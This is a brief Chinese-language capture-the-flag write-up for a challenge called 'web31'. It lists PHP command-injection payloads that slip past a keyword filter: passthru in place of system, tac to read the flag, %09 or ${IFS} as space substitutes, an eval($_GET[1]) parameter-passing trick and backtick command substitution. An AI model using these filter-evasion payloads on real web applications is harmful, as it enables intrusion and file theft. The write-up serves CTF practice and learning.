

# web31

用tac读取文件,"代替',passthru代替system,%09代替空格(get传参不要用${IFS},要的话需转义\$)
```
c=passthru("tac%09fla*");
c=passthru("tac\${IFS}fla*");
```
还可以用参数传递
```
?c=eval($_GET[1]);&1=passthru("tac\$IFS\$9fla*");
```

内联
```
/?c=passthru("tac\${IFS}`ls`");
```